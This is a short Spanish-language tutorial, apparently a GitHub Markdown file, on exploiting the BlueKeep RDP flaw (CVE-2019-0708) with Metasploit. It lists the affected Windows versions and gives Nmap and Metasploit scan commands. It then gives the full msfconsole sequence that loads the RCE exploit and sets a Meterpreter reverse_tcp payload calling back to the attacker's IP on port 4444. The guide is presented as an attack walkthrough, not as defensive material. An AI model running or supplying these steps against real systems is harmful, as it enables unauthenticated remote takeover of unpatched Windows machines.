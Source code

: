 # Explotación de RDP con BlueKeep (CVE-2019-0708) en Metasploit

## 1️⃣ ¿Qué es BlueKeep?

- **CVE-2019-0708 (BlueKeep)** es una vulnerabilidad crítica en RDP que permite **ejecución remota de código sin autenticación**.
- Afecta a:
  - Windows XP
  - Windows 7
  - Windows Server 2003
  - Windows Server 2008 / 2008 R2
- NO afecta a:
  - Windows 8/8.1
  - Windows 10
  - Windows Server 2012/2016/2019
- Si el servidor tiene **NLA activado**, BlueKeep no funciona.

---

## 2️⃣ Cómo identificar si un host es vulnerable

### Escanear con Nmap:
```
nmap -p 3389 --script rdp-ntlm-info <IP_OBJETIVO>
```
Te dirá la versión de Windows y si tiene NLA activado.

### Escanear con Metasploit:
```
msfconsole
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS <IP_OBJETIVO>
run
```
Si el módulo dice que es vulnerable, puedes intentar explotarlo.

---

## 3️⃣ Explotar con Metasploit

### Módulo de explotación:
```
exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

### Pasos completos:
```
msfconsole
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS <IP_OBJETIVO>
set RPORT 3389
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <TU_IP>
set LPORT 4444
exploit
```
